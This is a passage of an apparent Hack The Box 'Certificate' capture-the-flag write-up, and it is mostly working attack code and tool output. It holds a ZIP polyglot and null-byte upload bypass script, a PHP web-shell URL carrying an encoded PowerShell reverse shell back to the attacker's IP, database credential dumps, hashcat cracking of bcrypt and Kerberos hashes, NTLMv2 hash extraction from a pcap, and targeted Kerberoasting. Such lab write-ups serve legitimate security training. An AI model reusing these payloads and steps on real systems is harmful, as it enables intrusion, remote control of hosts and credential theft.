    central_dir_start = f.tell()
    f.write(b"PK\x01\x02")  # Central directory signature
    f.write(b"\x14\x03")    # Version made by
    f.write(b"\x14\x00")    # Version needed to extract
    f.write(b"\x00\x00")    # General purpose bit flag
    f.write(b"\x00\x00")    # Compression method
    f.write(b"\x00\x00")    # Last mod time
    f.write(b"\x00\x00")    # Last mod date
    f.write(struct.pack("<L", crc))  # CRC32
    f.write(struct.pack("<L", len(pdf_php_polyglot)))  # Compressed size
    f.write(struct.pack("<L", len(pdf_php_polyglot)))  # Uncompressed size
    f.write(struct.pack("<H", len(filename)))  # Filename length
    f.write(struct.pack("<H", 0))  # Extra field length
    f.write(struct.pack("<H", 0))  # Comment length
    f.write(struct.pack("<H", 0))  # Disk number start
    f.write(struct.pack("<H", 0))  # Internal file attributes
    f.write(struct.pack("<L", 0))  # External file attributes
    f.write(struct.pack("<L", 0))  # Relative offset of local header
    f.write(filename)  # Filename with null byte
    
    # End of central directory
    central_dir_end = f.tell()
    central_dir_size = central_dir_end - central_dir_start
    
    f.write(b"PK\x05\x06")  # End of central directory signature
    f.write(struct.pack("<H", 0))  # Number of this disk
    f.write(struct.pack("<H", 0))  # Disk where central directory starts
    f.write(struct.pack("<H", 1))  # Number of central directory records on this disk
    f.write(struct.pack("<H", 1))  # Total number of central directory records
    f.write(struct.pack("<L", central_dir_size))  # Size of central directory
    f.write(struct.pack("<L", central_dir_start))  # Offset of start of central directory
    f.write(struct.pack("<H", 0))  # Comment length

print("Created upload.zip with PDF polyglot")
print("File contains PDF headers but PHP code inside")
print("Try accessing as both .pdf and .php extensions")

```

This will result in a success:



But this could be made much more easy like this:

```
import zipfile
import os

# Paths
zip_path = 'shell.zip'
new_zip_path = 'shell2.zip'
old_filename = 'shell.php'
new_filename = 'shell.php\x00.pdf'

# Open the original ZIP and create a new one
with zipfile.ZipFile(zip_path, 'r') as zip_read:
    with zipfile.ZipFile(new_zip_path, 'w') as zip_write:
        for item in zip_read.infolist():
            original_data = zip_read.read(item.filename)
            # Rename the target file
            if item.filename == old_filename:
                item.filename = new_filename
            zip_write.writestr(item, original_data)

print(f'Renamed {old_filename} to {new_filename} inside {new_zip_path}')

```

And we have a easier stuff:  


Now I have several paths to do and I will try to get to the revshell first... And we can use the following:

```
http://certificate.htb/static/uploads/6144021521507642c5a799e2bca164e3/shell.php?cmd=powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAyACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA%3D%3D
```

As you can see we have a shell baby:  


# Road to user.txt

Now looking around I can see the credentials used in the DB?

```
PS C:\xampp\htdocs\certificate.htb> cat db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>

```

If we open the database as a string we can see the content of it and 2 local users?

```
PS C:\xampp\mysql\data\certificate_webapp_db> cat users.ibd
Q???8!??????????????????????????&&????????????????????????Q???8i????7E???7EG.J8i????????????????????????????????i??????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????i??????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????i??????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????i??????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????i??????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????i?????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????G.J8i??29?????????	E?
?x
  6 infimum
          supremum<	???LorraArmessaLorra.AAAlorra.aaa@certificate.htb$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFGgi?^???SaraLaracrofSara1200sara1200@gmail.com$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkKgi?O?< }??JohnWoodJohneyjohny009@mail.com$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRqgi???<	(??HavokWattersonhavokwwhavokww@hotmail.com$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5ntigj?t?<0}?	?StevenRomanstevsteven@yahoo.com$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2gk??<8??
?SaraBrawnsara.bsara.b@certificate.htb$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6gl?.?< @?
                                                                                                           	7?testtesttesttest@gmail.com$2y$04$2F6sFztmTqZB/gGGvIqG5u7GFXy5USuJ0FG5gt2aPqZAqKvXnnudygn7??<H?b?
                                                                                                                                                                                                                  ?YoVecioyovecioyovecio@test.htb$2y$04$oWXIv6i9KSqbqEHgZXm2.eZY0J6E5Tqk83Y4XCEpYmpW5JZL6vakqhC?x?pc??29?	
??????????oE??
??7Pinfimum
          supremum	TLorra.AAA3Sara1200? ??Johney?(??havokww0,stev?	8??sara.b?
 @test?
       H??yovecio?
                  pc
??o?l??????????E?
G8uinfimum
         supremum?lorra.aaa@certificate.htb?Tsara1200@gmail.com? ??johny009@mail.com?(??havokww@hotmail.com0Rsteven@yahoo.com?	8??sara.b@certificate.htb?
 @test@gmail.com?
                 H?)yovecio@test.htb?
                                     pc?l??

```

If we check the users we can see there are only sara.b from the db?

```
PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       12/30/2024   8:33 PM                Administrator                                                         
d-----       11/23/2024   6:59 PM                akeder.kh                                                             
d-----        11/4/2024  12:55 AM                Lion.SK                                                               
d-r---        11/3/2024   1:05 AM                Public                                                                
d-----        11/3/2024   7:26 PM                Ryan.K                                                                
d-----       11/26/2024   4:12 PM                Sara.B                                                                
d-----       12/29/2024   5:30 PM                xamppuser                                                             


```

Now I will try to parse the data better starting by showing the tables:

```
& "C:\xampp\mysql\bin\mysql.exe" -h localhost -u certificate_webapp_user -pcert!f!c@teDBPWD Certificate_WEBAPP_DB -e "SHOW TABLES;"
Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses

```

And now dumping all the creds from the users table:

```
PS C:\Users> & "C:\xampp\mysql\bin\mysql.exe" -h localhost -u certificate_webapp_user -pcert!f!c@teDBPWD Certificate_WEBAPP_DB -e "SELECT * FROM users;"
id	first_name	last_name	username	email	password	created_at	role	is_active
1	Lorra	Armessa	Lorra.AAA	lorra.aaa@certificate.htb	$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG	2024-12-23 12:43:10	teacher	1
6	Sara	Laracrof	Sara1200	sara1200@gmail.com	$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK	2024-12-23 12:47:11	teacher	1
7	John	Wood	Johney	johny009@mail.com	$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq	2024-12-23 13:18:18	student	1
8	Havok	Watterson	havokww	havokww@hotmail.com	$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti	2024-12-24 09:08:04	teacher	1
9	Steven	Roman	stev	steven@yahoo.com	$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2	2024-12-24 12:05:05	student	1
10	Sara	Brawn	sara.b	sara.b@certificate.htb	$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6	2024-12-25 21:31:26	admin	1
12	Yo	Vecio	yovecio	yovecio@test.htb	$2y$04$oWXIv6i9KSqbqEHgZXm2.eZY0J6E5Tqk83Y4XCEpYmpW5JZL6vakq	2025-06-06 22:51:52	student	1

```

And we have sara.b' password hash decrypted:

```
$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Blink182
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8U...kZNdH6
Time.Started.....: Sat Jun  7 01:48:20 2025 (0 secs)
Time.Estimated...: Sat Jun  7 01:48:20 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    49635 H/s (6.56ms) @ Accel:1 Loops:16 Thr:24 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12672/14344385 (0.09%)
Rejected.........: 0/12672 (0.00%)
Restore.Point....: 12096/14344385 (0.08%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-16
Candidate.Engine.: Device Generator
Candidates.#1....: iluvmatt -> laloteamo
Hardware.Mon.#1..: Temp: 59c Util: 50% Core:2610MHz Mem:8000MHz Bus:8

Started: Sat Jun  7 01:48:14 2025
Stopped: Sat Jun  7 01:48:20 2025

```

And now we can see that there are no hidden samba shares but we can also dump the users from DC:

```
└─# netexec smb dc01.certificate.htb -u 'sara.b' -p 'Blink182' --shares
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.71     445    DC01             [+] certificate.htb\sara.b:Blink182 
SMB         10.10.11.71     445    DC01             [*] Enumerated shares
SMB         10.10.11.71     445    DC01             Share           Permissions     Remark
SMB         10.10.11.71     445    DC01             -----           -----------     ------
SMB         10.10.11.71     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.71     445    DC01             C$                              Default share
SMB         10.10.11.71     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.71     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.71     445    DC01             SYSVOL          READ            Logon server share 
                                                                                                                                                                                                                                               
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Certificate]
└─# netexec smb dc01.certificate.htb -u 'sara.b' -p 'Blink182' --users 
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.71     445    DC01             [+] certificate.htb\sara.b:Blink182 
SMB         10.10.11.71     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.71     445    DC01             Administrator                 2025-04-28 21:33:46 0       Built-in account for administering the computer/domain 
SMB         10.10.11.71     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.71     445    DC01             krbtgt                        2024-11-03 09:24:32 0       Key Distribution Center Service Account 
SMB         10.10.11.71     445    DC01             Kai.X                         2024-11-04 00:18:06 0        
SMB         10.10.11.71     445    DC01             Sara.B                        2024-11-04 02:01:09 0        
SMB         10.10.11.71     445    DC01             John.C                        2024-11-04 02:16:41 0        
SMB         10.10.11.71     445    DC01             Aya.W                         2024-11-04 02:17:43 0        
SMB         10.10.11.71     445    DC01             Nya.S                         2024-11-04 02:18:53 0        
SMB         10.10.11.71     445    DC01             Maya.K                        2024-11-04 02:20:01 0        
SMB         10.10.11.71     445    DC01             Lion.SK                       2024-11-04 02:28:02 0        
SMB         10.10.11.71     445    DC01             Eva.F                         2024-11-04 02:33:36 0        
SMB         10.10.11.71     445    DC01             Ryan.K                        2024-11-04 02:57:30 0        
SMB         10.10.11.71     445    DC01             akeder.kh                     2024-11-24 02:26:06 0        
SMB         10.10.11.71     445    DC01             kara.m                        2024-11-24 02:28:19 0        
SMB         10.10.11.71     445    DC01             Alex.D                        2024-11-24 06:47:44 0        
SMB         10.10.11.71     445    DC01             karol.s                       2024-11-24 02:42:21 0        
SMB         10.10.11.71     445    DC01             saad.m                        2024-11-24 02:44:23 0        
SMB         10.10.11.71     445    DC01             xamppuser                     2024-12-29 09:42:04 0        
SMB         10.10.11.71     445    DC01             [*] Enumerated 18 local users: CERTIFICATE
                                                                                                                                                   
```

Now seems like sara can login to WINRM but she stil has no flag, but she has a pcap file?

```
*Evil-WinRM* PS C:\Users\Sara.B> tree /f
Folder PATH listing
Volume serial number is 7E12-22F9
C:.
ÃÄÄÄ3D Objects
ÃÄÄÄContacts
ÃÄÄÄDesktop
ÃÄÄÄDocuments
³   ÀÄÄÄWS-01
³           Description.txt
³           WS-01_PktMon.pcap
³
ÃÄÄÄDownloads
ÃÄÄÄFavorites
ÃÄÄÄLinks
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÃÄÄÄSearches
ÀÄÄÄVideos

```

I guess we might be able to obtain some creds from the pcap?

```
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> cat Description.txt
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!

```

Now I quick googling led me here(https://github.com/mlgualtieri/NTLMRawUnHide)

And running the tool allow us to get a set of credentials?

```
─# python3 NTLMRawUnHide.py -i ../WS-01_PktMon.pcap 
                                                              /%(
                               -= Find NTLMv2 =-          ,@@@@@@@@&
           /%&@@@@&,            -= hashes w/ =-          %@@@@@@@@@@@*
         (@@@@@@@@@@@(       -= NTLMRawUnHide.py =-    *@@@@@@@@@@@@@@@.
        &@@@@@@@@@@@@@@&.                             @@@@@@@@@@@@@@@@@@(
      ,@@@@@@@@@@@@@@@@@@@/                        .%@@@@@@@@@@@@@@@@@@@@@
     /@@@@@@@#&@&*.,/@@@@(.                            ,%@@@@&##(%@@@@@@@@@.
    (@@@@@@@(##(.         .#&@%%(                .&&@@&(            ,/@@@@@@#
   %@@@@@@&*/((.         #(                           ,(@&            ,%@@@@@@*
  @@@@@@@&,/(*                                           ,             .,&@@@@@#
 @@@@@@@/*//,                                                            .,,,**
   .,,  ...
                                    .#@@@@@@@(.
                                   /@@@@@@@@@@@&
                                   .@@@@@@@@@@@*
                                     .(&@@@%/.  ..
                               (@@&     %@@.   .@@@,
                          /@@#          @@@,         %@&
                               &@@&.    @@@/    @@@#
                          .    %@@@(   ,@@@#    @@@(     ,
                         *@@/         .@@@@@(          #@%
                          *@@%.      &@@@@@@@@,      /@@@.
                           .@@@@@@@@@@@&. .*@@@@@@@@@@@/.
                              .%@@@@%,        /%@@@&(.


Searching ../WS-01_PktMon.pcap for NTLMv2 hashes...

Found NTLMSSP Message Type 1 : Negotiation

Found NTLMSSP Message Type 1 : Negotiation

Found NTLMSSP Message Type 1 : Negotiation

Found NTLMSSP Message Type 1 : Negotiation

Found NTLMSSP Message Type 2 : Challenge
    > Server Challenge       : 0f18018782d74f81 

Found NTLMSSP Message Type 2 : Challenge
    > Server Challenge       : 0f18018782d74f81 

Found NTLMSSP Message Type 3 : Authentication
    > Domain                 : WS-01 
    > Username               : Administrator 
    > Workstation            : WS-01 

NTLMv2 Hash recovered:
Administrator::WS-01:0f18018782d74f81:3ff29ba4b51e86ed1065c438b6713f28:01010000000000000588e3da922edb012a49d5aaa4eeea0c00000000020016004300450052005400490046004900430041005400450001000800440043003000310004001e00630065007200740069006600690063006100740065002e006800740062000300280044004300300031002e00630065007200740069006600690063006100740065002e0068007400620005001e00630065007200740069006600690063006100740065002e00680074006200070008000588e3da922edb0106000400020000000800300030000000000000000000000000300000dc8f08a3fced11be77c988c86f35837e8ec242f6f5e1d65ec5247e3a87d8fe580a001000000000000000000000000000000000000900120063006900660073002f0044004300300031000000000000000000

Found NTLMSSP Message Type 3 : Authentication
    > Domain                 : WS-01 
    > Username               : Administrator 
    > Workstation            : WS-01 

Server Challenge not found... can't create crackable hash :-/

Found NTLMSSP Message Type 3 : Authentication
    > Domain                 : WS-01 
    > Username               : Administrator 
    > Workstation            : WS-01 

Server Challenge not found... can't create crackable hash :-/

Found NTLMSSP Message Type 3 : Authentication
    > Domain                 : WS-01 
    > Username               : Administrator 
    > Workstation            : WS-01 

Server Challenge not found... can't create crackable hash :-/

Found NTLMSSP Message Type 1 : Negotiation

Found NTLMSSP Message Type 1 : Negotiation

Found NTLMSSP Message Type 1 : Negotiation

Found NTLMSSP Message Type 1 : Negotiation

Found NTLMSSP Message Type 2 : Challenge
    > Server Challenge       : faad81b143d54cff 

Found NTLMSSP Message Type 2 : Challenge
    > Server Challenge       : faad81b143d54cff 

Found NTLMSSP Message Type 3 : Authentication
    > Domain                 : WS-01 
    > Username               : Administrator 
    > Workstation            : WS-01 

NTLMv2 Hash recovered:
Administrator::WS-01:faad81b143d54cff:1f2fb48c93d51b4cd83ff10480a4ca65:01010000000000001de1e5da922edb012dd3d2c1eab18dc100000000020016004300450052005400490046004900430041005400450001000800440043003000310004001e00630065007200740069006600690063006100740065002e006800740062000300280044004300300031002e00630065007200740069006600690063006100740065002e0068007400620005001e00630065007200740069006600690063006100740065002e00680074006200070008001de1e5da922edb0106000400020000000800300030000000000000000000000000300000dc8f08a3fced11be77c988c86f35837e8ec242f6f5e1d65ec5247e3a87d8fe580a001000000000000000000000000000000000000900120063006900660073002f0044004300300031000000000000000000

```

But seems like the creds can't be obtained?  
now I will perform a screen of the AD and parse in Bloodhound and I see that sara has tons of permissions since she is part of the account operators?  


Now I was able to obtain the credentials for Lion.sk:

```
$krb5tgs$23$*Lion.SK$CERTIFICATE.HTB$certificate.htb/Lion.SK*$3701924ced37746d0fda814ce70aeaec$0fdd4218a996986d4aeb7e47eca0b45d70a2c5e7f8d8a902675f6c5cfab790daf6bbea9b7b5cc00c96834eb9ed51231df285eef82ff8759bc2c5497a2f7debfcd4da45aef34755d4ed931081698eaaca9ee5356924938914f0676e77ff90513fd419cc44cdb336ae59d1a615c254cf28eb85847e17b2a763827837d3fe3a110f9194ef07f8aa7ce42e0701a5db8132fc266a633da677ba4abb94f387b128511423714a63740c7da8c7bdd69d68008f3622f8c0ace866f471c0722d27386d77307d319f742778254e6bcf3b613e3e5994e1ff0e9c12a3c71d786376a587874890a2ca03e93be435c2ba032e0c048fc49cb587a1f71dbb6fd6f2bfae189b9c17861816807eaaa67d50243e8fdd1e941488aae6fe4583b881352ed6125b3852eb8a83fac3e0d65235cfee844eb03d7feda1ffc91aa69a77a4a0e279a01af931edd2b6ff50c7f5efb2838b29c51085f9a411f7582ef7c78ce020c9eb4edf8b24055ed325cc51d0499d5853c305cb3c5642dfb42a16dfe2850e1b78ea0a076fe7e9830a5b3909139a36a5f560cbb0dd6174553519854e2a6d697668c2aac5403877ff86117357bac35155dc58ad78bd4906edb51910138072f35c3a60c3007bdd0a53dc38d63614fd0ee8d261b674e268557d45b110bd5e46be920de41c7fb703ab9f7de2ea2197fe746a4764fa1e7b03dac2bf94e1c5a0abd81ea54053cf5cf2d6fdfbc1a5dacfab4d5a11c4e0d5e89aa651197c9810a0a1bfa7aa4659e495bfe8c3aa0e8d4c5ee25c06dc1d40121f9e813925d94a07c75c5468797293b8d86b136af7774585ce79a5f989997b0caa8355ba389d0b619c876e250138c21733de7a9418027b5f1e16e9e8e937101da1a3ddfedeb2046c40216e503ad4879a50c4949d9cb00ecbe9bab33b0caced95bb58bb95502a77090818e8236c41a226eaaabd51735d572a3f0ffdedeb66894c91dbca67e181d47b761ba01185c64102a867e11fac9df5840e92213d784983fe9335b14fa984e23a81c344c47a7e5360d76ecdebebdb29bb53ba62721704735ab7768bb1163114245270c0593c559e90e132ba4186066562723b6e5da7ff3d52526819c03e4e28814a84fd6275042781007d279c6ff312cdd4956f13819fa8370d0d04b6359cb00a25b55d90897083850a5038eca6b7e7545f856696a3081bbed91543d43978f34a1ecc8eb588fa5a32a04f9f10c868b01c87cc1c5050f61b759a90c4c1d418737b4467ce6c9329fda1cb058c98a41b6590a9fbb6dd0bbc68fba3713aaa4d7b5cbeaa38b3fecfec2fc06290d4ff8d53aac642ddcd9042bb59bf41e706737a1091d3352ecc1fb229f2086a5f3f062e44ec744c7724818bdc971912d5e7e3f5f589dbee46cd76b5289319a56e4342161c5e0796417cb1131df38a1c385438b191ccffc3d3845bc1c94be69b82ac4f3f190279120c2311cc143c294bc36682e24b8887dcf10af945f15e97d66812d5cc302c61b20833eb3880ecba5e5a3cb305719390bae5:!QAZ2wsx
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Lion.SK$CERTIFICATE.HTB$certificate.ht...90bae5
Time.Started.....: Sat Jun  7 10:29:05 2025 (0 secs)
Time.Estimated...: Sat Jun  7 10:29:05 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 52638.6 kH/s (6.18ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 786432/14344385 (5.48%)
Rejected.........: 0/786432 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> sonis
Hardware.Mon.#1..: Temp: 57c Util:  0% Core:1890MHz Mem:7000MHz Bus:8

Started: Sat Jun  7 10:29:02 2025
Stopped: Sat Jun  7 10:29:06 2025

```

Via targeted kerberoast:

```
└─# python3 targetedKerberoast.py --dc-ip 10.10.11.71 -d certificate.htb -u sara.b -p 'Blink182' --request-user Lion.SK
[*] Starting kerberoast attacks
[*] Attacking user (Lion.SK)
[+] Printing hash for (Lion.SK)
